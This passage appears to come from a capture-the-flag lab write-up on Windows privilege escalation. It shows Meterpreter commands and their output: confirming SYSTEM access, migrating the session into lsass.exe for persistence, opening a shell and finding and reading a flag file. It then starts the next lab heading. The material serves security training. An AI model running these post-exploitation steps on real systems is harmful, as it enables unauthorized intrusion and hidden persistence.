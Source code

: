 _Verify the current user after privilege escalation._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Locate the 'lsass.exe' process to migrate the Meterpreter session into it for persistence._

`pgrep lsass.exe`:
```
624
```

_Migrate the Meterpreter session into the 'lsass.exe' process._

`migrate 624`:
```
[*] Migrating from 2284 to 624...
[*] Migration completed successfully.
```

**Explanation:** Migrating to the `lsass.exe` process (Local Security Authority Subsystem Service) is a common persistence technique that helps maintain the Meterpreter session even if the original exploited process is terminated.

_Open a shell within the Meterpreter session._

`shell`

_Search for any files containing 'flag' on the target machine._

`dir C:\*flag* /s /p`:
```
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent

10/24/2020  05:36 AM               551 flag.lnk
               1 File(s)            551 bytes

 Directory of C:\Users\Administrator\Desktop

10/24/2020  05:37 AM                32 flag.txt ←
               1 File(s)             32 bytes
```

_Display the contents of the flag file to retrieve the flag value._

`type C:\Users\Administrator\Desktop\flag.txt`:
```
b5b037a78522671b89a2c1b21d9b80c6 ←
```

### Privilege Escalation Scripts: PrivescCheck - Lab

#### Lab Environment
